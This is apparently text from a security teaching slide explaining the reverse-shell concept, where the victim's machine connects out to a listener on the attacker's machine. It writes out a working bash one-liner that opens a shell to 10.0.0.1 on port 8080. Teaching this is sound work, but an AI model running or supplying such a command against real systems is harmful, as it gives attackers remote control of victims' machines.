

# Summary
Reverse Shell - attacker's machine acts as a server. It opens a communication channel on a port and waits for incoming connections. Victim's machine acts as a client and initiates a connection to the attacker's listening server. This is exactly what is done by the following:
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
42